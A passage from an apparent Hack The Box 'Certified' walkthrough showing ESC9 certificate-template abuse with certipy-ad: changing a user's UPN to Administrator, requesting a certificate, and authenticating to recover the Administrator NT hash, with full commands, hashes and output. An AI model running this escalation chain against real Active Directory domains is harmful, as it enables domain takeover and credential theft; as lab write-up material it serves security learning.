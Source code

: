 
We can see in output that [ESC9](https://www.thehacker.recipes/ad/movement/adcs/certificate-templates#esc9-no-security-extension) vulnerability has been detected for `CertifiedAuthentication`. Will continue with`certipy-ad` to exploit this vulnerability to escalate to `Administartor`.

In our scenario, `management_svc` has `GeneriAll` against `ca_operator` and wants to compromise `Administrator`. `ca_operator` is allowed to enroll in a vulnerable template (`CertifiedAuthentication`)  that specifies the `CT_FLAG_NO_SECURITY_EXTENSION` flag in the `msPKI-Enrollment-Flag` value.

Starting with chaning `userPrincipalName` of `ca_operator` to `Administrator`.
```
┌──(magicrc㉿perun)-[~/attack/HTB Certified]
└─$ ┌──(magicrc㉿perun)-[~/attack/HTB Certified]
└─$ certipy-ad account update -username management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn Administrator
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : Administrator
[*] Successfully updated 'ca_operator'
```

Next we will request vulnerable certificate can be requested as `ca_operator`.
```
┌──(magicrc㉿perun)-[~/attack/HTB Certified]
└─$ certipy-ad req -username ca_operator -hashes b4b86f45c6018f1b664f70805f45d8f2 -target certified.htb -ca certified-DC01-CA -template CertifiedAuthentication
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 8
[*] Got certificate with UPN 'Administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

Switching back `userPrincipalName` of `ca_operator` from `Administrator`.
```
┌──(magicrc㉿perun)-[~/attack/HTB Certified]
└─$ certipy-ad account update -username management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn ca_operator
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : ca_operator
[*] Successfully updated 'ca_operator'
```

After those steps we can authenticate with the obtained `administrator.pfx` certificate to obtain `Administrator` NTLM hash. 
```
┌──(magicrc㉿perun)-[~/attack/HTB Certified]
└─$ certipy-ad auth -pfx administrator.pfx -domain certified.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certified.htb': aad3b435b51404eeaad3b435b51404ee:0d5b49608bbce1751f708748f67e2d34
```
